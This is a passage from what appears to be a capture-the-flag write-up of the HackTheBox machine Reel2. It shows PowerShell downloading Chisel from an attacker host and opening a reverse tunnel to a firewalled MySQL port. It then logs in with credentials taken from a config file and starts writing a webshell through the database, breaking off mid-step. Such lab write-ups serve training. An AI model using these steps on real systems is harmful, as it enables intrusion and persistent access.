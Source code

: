 As I didn’t have access to 3306 in my original `nmap` scan but it is listening
according to the `netstat`, the firewall must be blocking access. Back in my
full shell as k.svensson, I’ll upload
[Chisel](https://github.com/jpillora/chisel) (see my [post on
Chisel](/2020/08/10/tunneling-with-chisel-and-ssf-update.html) for more
details):

    
    
    PS C:\programdata> iwr http://10.10.14.10/chisel_1.7.6_windows_amd64 -outfile c.exe
    

I’ll start the server, and then run the client from Reel2:

    
    
    PS C:\programdata> .\c.exe client 10.10.14.10:8000 R:3306:localhost:3306
    .\c.exe client 10.10.14.10:8000 R:3306:localhost:3306
    2021/03/15 12:26:07 client: Connecting to ws://10.10.14.10:8000
    2021/03/15 12:26:07 client: Connected (Latency 20.4784ms)
    

At the server the connection shows up:

    
    
    oxdf@parrot$ ./chisel_1.7.6_linux_amd64 server -p 8000 --reverse
    2021/03/15 07:23:21 server: Reverse tunnelling enabled
    2021/03/15 07:23:21 server: Fingerprint FHyXk/mKppuP4EyXIzlk5cCI/H4TQOELm7IpiriOTes=
    2021/03/15 07:23:21 server: Listening on http://0.0.0.0:8000
    2021/03/15 07:23:28 server: session#1: tun: proxy#R:3306=>localhost:3306: Listening
    

Now I can connect with the creds from the config to 127.0.0.1:3306 (`apt
install mariadb-client` on Parrot to get the `mysql` client):

    
    
    oxdf@parrot$ mysql -h 127.0.0.1 -u root -pGregswd123FAEytjty wallstant
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A
    
    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MariaDB connection id is 885
    Server version: 10.4.13-MariaDB mariadb.org binary distribution
    
    Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
    
    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
    
    MariaDB [wallstant]>
    

### Webshell

I’ll use that database access to write a webshell. Create a table:

    
    
    MariaDB [wallstant]> create table df(stuff text);
    Query OK, 0 rows affected (0.126 sec) 
    

Write webshell into table:
